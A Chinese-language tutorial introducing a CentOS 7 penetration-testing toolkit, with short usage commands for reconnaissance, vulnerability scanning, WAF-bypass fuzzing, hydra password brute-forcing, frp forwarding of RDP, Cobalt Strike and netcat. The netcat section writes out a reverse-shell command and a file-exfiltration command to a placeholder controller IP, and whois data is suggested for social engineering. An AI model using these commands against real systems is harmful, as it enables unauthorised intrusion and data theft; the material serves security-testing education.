

工具地址：https://github.com/Enul1ttle/Centos7PTA
0x01 安装内容
- 必备组件：net-tools wget bzip texlive alien guntls-utils git pip httpd zlib-devel bzip2-devel openssl-devel ncurses-devel sqlite-devel readline-devel tk-devel gcc make
- 必备环境：python3 pip3 jdk 1.8
- 信息收集：whois wafw00f whatweb nmap snitch GitMiner ReconDog subDomainsBrute Sublist3r
- 漏洞扫描：Nilto openvas Arachni w3af dirsearch XSStrike CMSeek sqliv
- 漏洞利用 :metasploit sqlmap
- 模糊测试：WAFNinja Wfuzz
- 暴力破解：hydra cupp
- 后渗透工具：nc frp cobaltstrike
0x02 工具的介绍与简单使用
whois
whois 域名whois IP大佬说whois看似简单，但却非常实用。能收集到管理员的邮箱账号与手机号码等等，可用来社工或生成字典。
whois ip运气好的时候能看到目标的IP段
wafw00f
wafw00f https://www.baidu.com
whatweb
whatweb:https://www.baidu.com/
nmap
总所周知的神器就不说了
添加脚本：git clone https://github.com/cldrn/nmap-nse-scripts && cp -rf scripts/* /usr/share/nmap/scripts/
升级script库：nmap --script-updatedb
使用所有脚本检测：nmap -T4 -A -sV -v3 -d --script all ip
扫描常见的漏洞：nmap --script=vuln
nmap参考指南：https://wizardforcel.gitbooks.io/nmap-man-page/content/
GitMiner
搜索github项目泄露的敏感信息
gitminer --query 'filename:configuration extension:php "public password" in:file' -m joomla -c cookie.txt
cookie.txt 是自己github账号的cookie
ReconDog
信息收集的瑞士军刀
subDomainsBrute
子域名爆破：subDomainsBrute baidu.com
Sublist3r
使用各大搜索引擎进行子域名采集：sublist3r -d baidu.com
Nikto
扫描内容：软件版本 、敏感文件 、配置问题 、xss、sql 、运气好能爆出网站的内网IP
nikto -host www.baidu.com
Arachni
特点：web界面直观 、多功能 、高性能的Ruby框架
arachni 连接http://
:9292
默认账号密码：admin@admin.admin administrator
w3af
没有完美的扫描器，多个一起食用效果才能更佳
openvas
弱点扫描，nessue开源的分支
https://<IP>:9392
新建任务：Scans->Tasks->再点击左上角的仙女魔法棒
dirsearch
目录爆破，配合御剑典藏版的字典，很强大
dirsearch -u www.baidu.com -e php
XSStrike
主要特点：反射型和DOM XSS扫描、多线程抓取 、可配置的核心、WAF检测和绕过
xsstrike -u https://exmple.com/?e=qe3
CMSeek
检测超过155款CMS
cmseek
snitch
使用谷歌黑客语法自动化采集敏感信息工具
snitch -D ext -U baidu.com -P15
sqliv
配合谷歌黑客语法对子域名多的目标进行初步SQL检测是个不错的选择
sqliv -d "site:baidu.com inurl:?id=" -e google
sqlmap
sqlmap中文手册：https://octobug.gitbooks.io/sqlmap-wiki-zhcn/content/
WAFNinja
灵活的WAF自动化Fuzz工具
wafinja bypass -u "http://www.target.com/index.php" -p "Name=PAYLOAD&Submit=Submit" -c "phpsessid=value" -t xss -o output.html

快速启动命令我改为wafinja，感觉舒服点
Wfuzz
fuzzing
wfuzz -c -z range,1-20 https://tongji.baidu.com/web/help/article?id=FUZZ
fuzz字典
cupp
社工字典生成，适合生成外国佬的密码
cupp -i
hydra
爆破神器
hydra -l user -P passlist.txt ftp://192.168.0.1
frp
服务端frps.ini1
2server_port = 7000
auth_token = 001
auth_token 相当于密码，可选
启动：frps
客户端frpc.ini1
2
3
4
5
6
7
8server_addr = 服务端IP
server_port = 7000
auth_token = 001
#将本地3389转发到服务端的6000
type = tcp
local_ip = 127.0.0.1
local_port = 3389
remote_port = 6000
启动:frpc.exe -c frpc.ini
服务端和客户端版本号要对应
nc
反弹shell
靶机：
nc.exe -vv 控制端IP 6666 -e cmd.exe
控制机：nc -lvp 6666
传输文件
控制机：
nc -l 6666 >1.txt
靶机：nc 控制端IP 6666 < c:\1.txt
metasploit
micropoor：https://micro8.gitbook.io/micro8/contents
cobaltstrike
后渗透神器，很方便很舒服，谁用谁知道。
cs 服务器IP password
操作机：
java -jar cobaltstrike.jar